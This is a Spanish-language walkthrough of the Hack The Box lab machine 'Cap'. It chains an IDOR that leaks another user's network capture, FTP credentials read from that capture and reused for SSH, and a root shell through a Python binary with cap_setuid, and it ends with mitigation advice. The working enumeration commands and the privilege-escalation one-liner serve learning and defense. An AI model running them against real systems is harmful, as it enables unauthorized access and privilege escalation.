



# Cap

[{ .maquina-icono }](https://app.hackthebox.com/machines/Cap)

## Resumen

Máquina Linux con un panel web ("Security Dashboard", en Gunicorn) que genera capturas de red
por usuario. El panel sufre un **IDOR**: cambiando el identificador numérico de la URL
(`/data/0`) se descarga la captura de **otro usuario**. Ese `.pcap` contiene un **login de FTP en
texto plano** con las credenciales de `nathan`, que están **reutilizadas** en SSH y dan la flag de
usuario. La escalada a root es inmediata: el binario `python3.8` tiene la *capability*
**`cap_setuid`**, que permite ponerse como root con una línea de Python.

## Reconocimiento

Un ping para ver el TTL y el sistema operativo:

```
64 bytes from 10.129.81.45: icmp_seq=1 ttl=63 time=57.5 ms
```

Un TTL cercano a 64 (63) indica **Linux**.

### Enumeración de puertos

```
nmap -p- --open -T4 --min-rate 5000 10.129.81.45
```

```
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Detallamos versiones:

```
nmap -p 21,22,80 -sVC -T4 --min-rate 5000 10.129.81.45
```

```
21/tcp open  ftp   vsftpd 3.0.3
22/tcp open  ssh   OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
80/tcp open  http  Gunicorn | Security Dashboard
```

El FTP no tiene login anónimo y la versión de Gunicorn no se identifica, así que el foco es la
**web del puerto 80**: un panel llamado **Security Dashboard**.



## Enumeración

### Fuzzing

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.81.45/FUZZ -mc 200,204,301,302,307,401,403 -e .php,.html,.txt -t 100 -ac -c
```

```
data      [Status: 302]
ip        [Status: 200]
netstat   [Status: 200]
```

`/ip` y `/netstat` muestran la salida de `ifconfig`/`netstat` del servidor, pero lo interesante
es **`/data`** (redirige), que parece llevar un identificador. Fuzzeamos dentro:



```
ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://10.129.81.45/data/FUZZ -mc 200,204,301,302,307,401,403 -e .php,.html,.txt -t 100 -ac -c
```

```
0    [Status: 200]
00   [Status: 200]
```

### IDOR: la captura de otro usuario

El panel genera una **captura de red por sesión** y la guarda en `/data/<id>`. Nuestra sesión
tendría su propio número, pero probando con **`/data/0`** se descarga la captura de **otro
usuario** sin ninguna comprobación de permisos: un **IDOR** clásico.

## Explotación

Descargamos `/data/0` (un fichero `.pcap`) y lo abrimos con **Wireshark**. Como el FTP viaja en
**texto plano**, siguiendo el flujo aparecen el usuario y la contraseña de `nathan`:



```
USER nathan
PASS Buck···········!   (censurada)
```

Esas credenciales están **reutilizadas** en SSH, así que entramos directamente y leemos la flag:

```
ssh nathan@10.129.81.45
cat user.txt
```

```
USER FLAG -> [censurada]
```

## Escalada de privilegios

Buscamos *capabilities* en el sistema:

```
getcap -r / 2>/dev/null
```

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

El binario `python3.8` tiene la *capability* **`cap_setuid`**: puede cambiar su UID. Eso permite
ponerse como **root** (`setuid(0)`) y lanzar una shell:

```
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
cd /root && cat root.txt
```

```
ROOT FLAG -> [censurada]
```

## Mitigación

- **Corregir el IDOR**: comprobar que el usuario autenticado es el **dueño** del recurso antes de
  servir `/data/<id>`; no basar el acceso solo en un identificador adivinable y secuencial.
- **No usar FTP en texto plano**: migrar a FTPS/SFTP para que las credenciales no viajen en claro
  (y no dejar capturas con tráfico sensible accesibles desde la web).
- **No reutilizar contraseñas** entre servicios (FTP y SSH compartían credenciales).
- **Revisar las *capabilities***: `cap_setuid` sobre un intérprete como Python equivale a dar
  root. Quitarla (`setcap -r /usr/bin/python3.8`) y aplicar el **principio de mínimo privilegio**.

## Qué he aprendido

- Un **IDOR** tan simple como cambiar un número en la URL (`/data/0`) puede dar acceso a datos de
  otros usuarios: siempre hay que probar a tocar los identificadores.
- El **tráfico en texto plano** (FTP) dentro de un `.pcap` es una mina de credenciales; Wireshark
  y el seguimiento de flujos lo dejan a la vista.
- Las **Linux capabilities** son un vector de escalada a menudo olvidado: `getcap -r /` debería
  ser parte de la enumeración, y un `cap_setuid` sobre un binario potente es root directo.
